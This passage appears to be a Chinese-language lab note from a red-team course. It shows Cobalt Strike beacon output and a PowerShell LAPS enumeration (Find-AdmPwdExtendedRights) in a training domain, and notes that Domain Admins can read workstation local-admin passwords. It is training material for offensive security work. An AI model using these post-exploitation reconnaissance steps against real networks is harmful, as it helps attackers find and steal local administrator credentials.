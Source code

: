 <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="1"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="2"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><Obj S="progress" RefId="3"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Processing</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="4"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Searching for available modules</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD>Searching UNC share \\dc-2\home$\nlamb\Documents\WindowsPowerShell\Modules.</SD></PR></MS></Obj><Obj S="progress" RefId="5"><TNRef RefId="0" /><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj><S S="Error">Find-AdmPwdExtendedRights : More than one object found, search using distinguishedName instead_x000D__x000A_</S><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ Find-AdmPwdExtendedRights -Identity Workstations | fl_x000D__x000A_</S><S S="Error">+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : NotSpecified: (:) [Find-AdmPwdExtendedRights], AmbiguousResultException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : AdmPwd.PSTypes.AmbiguousResultException,AdmPwd.PS.FindExtendedRights_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>

beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are DEV\nlamb
```

教材的输出是：
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Find-AdmPwdExtendedRights -Identity Workstations | fl

ObjectDN             : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
ExtendedRightHolders : {NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support}
```

NT AUTHORITY\SYSTEM, DEV\Domain Admins, DEV\1st Line Support三个组都有权限读取指定OU的密码

DEV\nlamb在DEV\Domain Admins，所以有权读取

```
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2
